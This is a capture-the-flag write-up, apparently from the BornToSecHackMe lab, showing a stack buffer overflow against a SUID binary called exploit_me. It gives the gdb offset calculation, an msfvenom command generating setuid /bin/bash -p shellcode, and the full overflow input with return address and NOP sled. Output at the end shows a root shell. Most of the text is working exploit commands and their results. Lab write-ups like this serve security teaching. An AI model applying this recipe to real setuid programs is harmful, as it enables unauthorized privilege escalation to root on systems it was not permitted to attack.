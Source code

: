 ### find segfault's offset
calculate the difference between addresses in gdb:     
ex: p/d adress_eip - address_inputStart
```
(gdb) p/d  0xbffff6ac - 0xbffff620
```
The difference is an offset of 140.


From here we must generate a x86 payload that will open us a shell as root. 

### make a payload with msfvenom

To generate the payload, we used a famous payload generator called `msfvenom`.    
Choose your payload with:
```bash
$> msfvenom --list payloads
```
We will used the paylaod: `linux/x86/exec`

Choose your options with:

```bash
$> msfvenom -p payload --list-options
```
We will set several options and generate our payload with:
```bash
$> msfvenom -p linux/x86/exec -n 32 -f raw -o payload.txt PrependSetuid=true PrependSetresuid=true VERBOSE=true NullFreeVersion=true CMD="/bin/bash -p"
```

Now we can find our payload in the file `payload.txt`.

#### Final input

To get our final input we will concatenate all those things:     
Set args like this:    
```
(gdb) set args "$(python -c 'print "A" * OFFSET')$(printf INPUTSTARTADDRESS)$(python -c 'print "\x90" * NOP_SIZE')$(cat PAYLOAD_FILE)"
``` 


Replacing all of it and we have our final input string that should give us a shell without extra-privileges because of gdb removing SUID permissions :
```
(gdb) set args "$(python -c 'print "A" * 140')$(printf "\xf0\xf5\xff\xbf")$(cat payload.txt)"
``` 

But if we run it ouside gdb, in a standard shell, we get a root shell:
```
zaz@BornToSecHackMe:~$ ./exploit_me "$(python -c 'print "A" * 140')$(printf "\x20\xf6\xff\xbf")$(python -c 'print "\x90" * 64')$(cat payload.txt)"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ����������������������������������������%-,�H���1�1��㰤̀1�jX̀1�������ֹ@�Ԩ����B$/f'���
                       Rfh-c����
                                �Rh//shh/bin��RVWS��̀�����/bin/bash -p
root@BornToSecHackMe:/home/zaz# id
uid=0(root) gid=1005(zaz) groups=0(root),1005(zaz)
```

And now we have a root shell !!

